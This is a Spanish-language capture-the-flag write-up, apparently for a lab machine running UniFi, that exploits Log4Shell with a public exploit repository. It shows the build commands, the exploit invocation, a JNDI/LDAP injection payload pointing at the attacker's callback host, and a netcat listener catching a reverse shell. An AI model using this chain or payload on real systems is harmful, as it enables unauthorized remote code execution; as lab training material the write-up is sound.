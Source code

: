 De pasó encontré lo que parece un exploit ya preparado para explotarlo [https://github.com/puzzlepeaches/Log4jUnifi](https://github.com/puzzlepeaches/Log4jUnifi), este repositirio trae enlaces con una explicación más extensa del exploit Log4Shell, una vulnerabilidad que permite RCE además trae instrucciones de como usarlo, así que para que pensarlo más voy a seguir las instrucciones sin complicarme entrar en detalles de como funciona.

``` shell
┌──(kali㉿kali25)-[~/Log4jUnifi]
└─$ apt update && apt install openjdk-11-jre maven

python -m venv . # crear el virtual enviroment
                                                                                               
source bin/activate # activar el venv

pip install -r requirements.txt

mvn package -f utils/rogue-jndi/ # seguimos las instrucciones del proyecto, lanzando maven
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  38.767 s
[INFO] Finished at: 2025-08-06T13:12:37+02:00
[INFO] -----
```

Maven termina con ```BUILD SUCCESS```. Ahora siguiendo las instrucciones de uso, lanzamos el payload indicando la dirección de callback y el puerto además de la URL de la app que vamos a explotar.

``` shell
┌──(Log4jUnifi)─(kali㉿kali25)-[~/Log4jUnifi]
└─$ python3 exploit.py -u https://10.129.117.96:8443 -i 10.10.15.58 -p 4444 
[*] Starting malicous JNDI Server
{"username": "${jndi:ldap://10.10.15.58:1389/o=tomcat}", "password": "log4j", "remember": "${jndi:ldap://10.10.15.58:1389/o=tomcat}", "strict":true}
[*] Firing payload!
[*] Check for a callback!
```

En otra terminal tenemos que deja a la escucha un netcat para recibir la conexión

``` shell
┌──(kali㉿kali25)-[~/Log4jUnifi]
└─$ nc -lvnp 4444                 
listening on [any] 4444 ...
connect to [10.10.15.58] from (UNKNOWN) [10.129.117.96] 33778
whoami
unifi
```

Ahora tenemos una shell y podemos interactuar con el sistema como usuario ```unifi```. 

 Task 5

What protocol does JNDI leverage in the injection? 

Parece bastante obvio adivinar que es ```ldap``` ```jndi:ldap://10.10.15.58:1389/o=tomcat```
